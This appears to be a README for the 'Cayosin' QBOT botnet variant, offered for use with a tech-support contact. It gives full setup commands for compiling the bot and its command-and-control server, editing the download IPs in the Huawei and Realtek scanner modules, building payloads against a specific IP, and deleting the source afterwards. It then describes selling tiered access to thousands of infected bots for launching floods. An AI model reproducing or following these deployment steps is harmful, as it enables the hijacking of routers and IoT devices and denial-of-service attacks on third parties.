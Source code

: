 cayosin QBOT botnet variant. tested and working on centos 6, 6.9 and 7.7.

for tech support add me on keybase.io @juutalainen

installation / setup guide:

yum update -y; yum install wget python gcc nano screen httpd php -y; service httpd start; ulimit -n 999999

nano /usr/include/bits/typesizes.h

if '#define __FD_SETSIZE' is set to 1024, change it to 99999, otherwise CTRL + X to quit

change ips in:
- /bot/main.c
- /bot/huawei_scanner.c search for 'wget'
- /bot/realtek... .c search for 'wget'
- /CayosinCNC.c look for iplookup and change the ip there

gcc bot/*.c -o bp -pthread; python Cayosin.py fff 179.43.154.140  cayosin; rm -rf bot; mv iplookup.php /var/www/html

make sure to save the payload

gcc -o cnc CayosinCNC.c -pthread; rm -rf CayosinCNC.c; rm -rf Cayosin.py; rm -rf cross-compiler-*

*You have the ability to make each account admin/superadmin/common.
"admin" Gives the ability to add/kick users and force unmute all clients. 
"superadmin" Gives all regular admin abilities, as well as IP Ban/Unban.
"common" Only allows the sending of floods, use of Tools and Server Commands.

*You must also select their bot plan.
"noob" gives control over 0 bots
"plan1" gives control over 100 bots
"plan2" gives control over 1000 bots
"plan3" gives control over 5000 bots
"all" gives them control over all bots

And their Plan Expiry Date (Format: 00/00/0000) (day/month/year)

nano logins.txt

YOUR_USERNAME YOUR_PASSWORD superadmin all 30/12/9999

screen ./cnc 420 850

hold down CTRL, then hold down A and then press D

CNC port = 65525

telnet 133.70.150.140 65525

with putty you have to use 'RAW'

cmd to add a user:

adduser spotuser spotpass superadmin all 13/04/2022
